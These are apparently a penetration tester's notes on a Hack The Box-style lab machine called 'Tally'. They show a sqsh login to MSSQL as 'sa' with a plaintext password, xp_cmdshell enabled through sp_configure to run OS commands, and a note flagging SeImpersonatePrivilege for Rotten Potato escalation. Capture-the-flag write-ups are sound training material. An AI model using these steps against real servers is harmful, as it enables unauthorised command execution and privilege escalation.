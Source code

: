 # Connecting to SQSH (Microsoft SQL)

```bash
$ sqsh -S 10.10.10.59 -U sa -P GWE3V65#6KFH93@4GWTG2G
```


xp_cmdshell is disable by default. Enabling xp_cmdshell with EXEC SP_CONFIGURE
```bash
1> xp_cmdshell 'whoami'
2> go
Msg 15281, Level 16, State 1
Server 'TALLY', Procedure 'xp_cmdshell', Line 1
SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system
administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
1> EXEC SP_CONFIGURE 'show advanced options', 1
2> reconfigure
3> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> EXEC SP_CONFIGURE 'xp_cmdshell', 1
2> reconfigure
3> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
```
![[Pasted image 20211116114356.png]]

Using whoami /priv to see the tokens i have
```bash
1> xp_cmdshell 'whoami /priv'                                                                                                                                                                 
2> go
```

* Token SeImpersonatePrivilege  - chance of exploitable with rotten potato privesc
![[Pasted image 20211116114822.png]]

